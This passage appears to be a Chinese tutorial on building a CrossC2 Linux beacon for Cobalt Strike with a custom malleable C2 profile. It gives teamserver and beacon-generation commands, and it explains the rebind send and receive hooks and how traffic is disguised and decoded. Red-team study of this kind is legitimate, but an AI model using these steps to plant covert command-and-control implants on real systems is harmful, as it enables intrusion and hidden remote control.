 其中还提供了一个 https.profile，和默认的 c2profile.c 文件是配对的，可以直接使用。只需要按照下边的命令执操作即可

```
./teamserver 192.168.225.24 123456 https.profile


```

```
gcc c2profile.c -fPIC -shared -o lib_rebind_test.so
./genCrossC2.MacOS 192.168.225.24 1443 cobaltstrike.beacon_keys lib_rebind_test.so Linux x64 ./test


```

通信函数介绍
------

*   Beacon 向 TeamServer 发送数据时触发
    

*   cc2_rebind_http_get_send
    
*   cc2_rebind_http_post_send
    

*   Beacon 接收 TeamServer 响应的数据时触发
    

*   cc2_rebind_http_get_recv
    
*   cc2_rebind_http_post_recv
    

*   查找有用的数据部分
    

*   find_payload
    

find_payload
------------

该函数用来取出有用的那部分数据，prepend 和 append 部分拼接的数据只是为了达到伪装的效果，实际上传输的真正数据部分也就`baseurl(mask(metadata))`部分。

prepend + prepend + `baseurl(mask(metadata))` + append 对应下图红框部分

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUX9LficxdxQlsoYOz150GBt3bibW9umbL5akJ4QTLHVBKZIlonVOUIIpA/640?wx_fmt=png)

它的使用很简单，只需要标记要切割部分数据的开始和结尾即可。  

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUcqVUEibk8OJj5dtdDycichFsvYx6wYB8Iue6ADpTPz1KiakuZj2c3VCUA/640?wx_fmt=png)

编码解码梳理
------

C2-Profile 的`server { ... output { ... } }`中描述了 TeamServer 响应的数据是如何编码的

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUtxBlqTKa3zUZVGklViaC36krfHJA6lCV0BNzxA2Q16QDbXocTtiaicYsA/640?wx_fmt=png)

那么这里就需要在 c2profile.c 文件的`cc2_rebind_http_post_recv`函数中实现`base64_encode(decode_mask(base64_decode(find_payload(data))))`(这里是伪代码)，这样即可拿到被 AES 加密的元数据，随后将元数据再进行 base64 编码后向下传递。  
